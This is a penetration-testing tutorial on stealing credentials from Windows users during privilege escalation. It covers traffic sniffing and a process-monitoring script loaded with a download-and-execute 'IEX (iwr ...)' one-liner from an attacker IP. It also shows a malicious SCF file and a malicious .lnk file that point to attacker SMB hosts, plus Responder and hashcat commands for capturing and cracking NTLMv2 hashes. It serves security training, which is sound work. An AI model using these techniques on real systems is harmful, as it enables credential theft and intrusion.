Users are sometimes the weakest link in an organization. An overloaded employee working quickly may not notice something is "off" on their machine when browsing a shared drive, clicking on a link, or running a file. Once we have exhausted all options for privilege escalation, we can look at specific techniques to steal credentials from an unsuspecting user by sniffing their network traffic/local commands or attacking a known vulnerable service requiring user interaction. One of the techniques is placing malicious files around heavily accessed file shares in an attempt to retrieve user password hashes to crack offline later.

## Traffic Capture

If `Wireshark` is installed, unprivileged users may be able to capture network traffic, as the option to restrict Npcap driver access to Administrators only is not enabled by default.
![[pcap.webp]]

Here we can see a rough example of capturing cleartext FTP credentials entered by another user while signed into the same box. While not highly likely, if `Wireshark` is installed on a box that we land on, it is worth attempting a traffic capture to see what we can pick up.
![[ftp.webp]]

Also, suppose our client positions us on an attack machine within the environment. In that case, it is worth running `tcpdump` or `Wireshark` for a while to see what types of traffic are being passed over the wire and if we can see anything interesting. The tool [net-creds](https://github.com/DanMcInerney/net-creds) can be run from our attack box to sniff passwords and hashes from a live interface or a pcap file. It is worth letting this tool run in the background during an assessment or running it against a pcap to see if we can extract any credentials useful for privilege escalation or lateral movement.

## Process Command Lines

### Monitoring for Process Command Lines

When getting a shell as a user, there may be scheduled tasks or other processes being executed which pass credentials on the command line. We can look for process command lines using something like this script below. It captures process command lines every two seconds and compares the current state with the previous state, outputting any differences.
```shell-session
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

### Running Monitor Script on Target Host
```powershell-session
PS C:\htb> IEX (iwr 'http://10.10.14.157:8000/procmon.ps1') 

InputObject                                           SideIndicator
-----------                                           -------------
@{CommandLine=C:\Windows\system32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}} =>      
@{CommandLine=“C:\Windows\system32\cmd.exe” }                          =>      
@{CommandLine=\??\C:\Windows\system32\conhost.exe 0x4}                      =>      
@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd}       =>       
@{CommandLine=“C:\Windows\system32\backgroundTaskHost.exe” -ServerName:CortanaUI.AppXy7vb4pc2... <=
```

This is successful and reveals the password for the `sqlsvc` domain user, which we could then possibly use to gain access to the SQL02 host or potentially find sensitive data such as database credentials on the `backups` share.

## Vulnerable Services

We may also encounter situations where we land on a host running a vulnerable application that can be used to elevate privileges through user interaction. [CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) is a great example of this. This was a vulnerability in Docker Desktop Community Edition before 2.1.0.1. When this particular version of Docker starts, it looks for several different files, including `docker-credential-wincred.exe`, `docker-credential-wincred.bat`, etc., which do not exist with a Docker installation. The program looks for these files in the `C:\PROGRAMDATA\DockerDesktop\version-bin\`. This directory was misconfigured to allow full write access to the `BUILTIN\Users` group, meaning that any authenticated user on the system could write a file into it (such as a malicious executable).

Any executable placed in that directory would run when a) the Docker application starts and b) when a user authenticates using the command `docker login`. While a bit older, it is not outside the realm of possibility to encounter a developer's workstation running this version of Docker Desktop, hence why it is always important to thoroughly enumerate installed software. While this particular flaw wouldn't guarantee us elevated access (since it relies on a service restart or user action), we could plant our executable during a long-term assessment and periodically check if it runs and our privileges are elevated.

## SCF on a File Share

A Shell Command File (SCF) is used by Windows Explorer to move up and down directories, show the Desktop, etc. An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero), we can often capture NTLMv2 password hashes for any users who browse the share. This can be particularly useful if we gain write access to a file share that looks to be heavily used or even a directory on a user's workstation. We may be able to capture a user's password hash and use the cleartext password to escalate privileges on the target host, within the domain, or further our access/gain access to other resources.

### Malicious SCF File

In this example, let's create the following file and name it something like `@Inventory.scf` (similar to another file in the directory, so it does not appear out of place). We put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. Here we put in our `tun0` IP address and any fake share name and .ico file name.
```shell-session
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

### Starting Responder

Next, start Responder on our attack box and wait for the user to browse the share. If all goes to plan, we will see the user's NTLMV2 password hash in our console and attempt to crack it offline.
```shell-session
$ sudo responder -wrf -v -I tun0
```

### Cracking NTLMv2 Hash with Hashcat
```shell-session
$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

## Capturing Hashes with a Malicious .lnk Files

Using SCFs no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious [.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943) file. We can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb), as it is not as straightforward as creating a malicious .scf file. We can also make one using a few lines of PowerShell:

### Generating a Malicious .lnk File
```powershell-session

$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
